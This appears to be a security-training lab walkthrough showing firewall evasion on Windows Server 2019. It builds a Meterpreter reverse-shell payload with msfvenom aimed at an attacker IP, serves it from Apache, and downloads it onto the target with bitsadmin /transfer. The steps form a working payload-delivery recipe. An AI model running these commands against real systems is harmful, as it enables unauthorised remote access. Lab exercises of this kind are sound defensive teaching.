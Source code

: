 
BITS (Background Intelligent Transfer Service) is an essential component of Windows XP and later versions of Windows operating systems. BITS is used by system administrators and programmers for downloading files from or uploading files to HTTP webservers and SMB file shares. BITSAdmin is a tool that is used to create download or upload jobs and monitor their progress.

Here, we will use BITSAdmin to evade firewall and transfer malicious file into the target machine.

1. to switch to the **Windows  2019** machine and launch **Control Panel**.
    
2. The **Control Panel** window appears, click **System and Security**. In **System and Security** window, select **Windows Defender Firewall**.
    
3. The **Windows Defender Firewall** control panel appears; click the **Turn Windows Defender Firewall on or off** link in the left pane.
    
4. The **Customize Settings** window appears.
    
5. Select **Turn on Windows Defender Firewall** under **Private network settings** and **Public network settings**.
    
6. Click **OK**.
    
7. switch to the **Parrot Security** machine. Open a **Terminal** window and execute **sudo su** to run the programs as a root user (When prompted, enter the password **toor**).
    
8. In the terminal window, type **msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Exploit.exe** and press **Enter**, to create the payload.
    
9. Now, create a directory to share this file with the target machine, provide the permissions, and copy the file from **/home/attacker** to the shared location using the below commands:
    
    - Type **mkdir /var/www/html/share** and press **Enter** to create a shared folder
    - Type **chmod -R 755 /var/www/html/share** and press **Enter**
    - Type **chown -R www-data:www-data /var/www/html/share** and press **Enter**
    - Copy the malicious file to the shared location by typing **cp Exploit.exe /var/www/html/share** and pressing **Enter**
    
10. Now, start the Apache service. To do this, run **service apache2 start** command.
    
11. switch to **Windows Server 2019** machine.
    
12. In the **Type here to search** field of the **Desktop**, type **powershell** and click **Windows PowerShell** to launch a PowerShell.
    
13. In the PowerShell window, type **bitsadmin /transfer Exploit.exe http://10.10.1.13/share/Exploit.exe c:\Exploit.exe** and press **Enter**.
    
14. **BITSAdmin** transfers the file, as shown in the screenshot.
    
15. Open **File Explorer** and Navigate to **C:** drive, you can see that the malicious file is successfully transferred.
    
16. After transferring the malicious file the attacker can use this malicious file for gaining access, escalating privileges and to perform various malicious other activities.
    
17. This concludes the demonstration of evading firewall through Windows BITSAdmin.

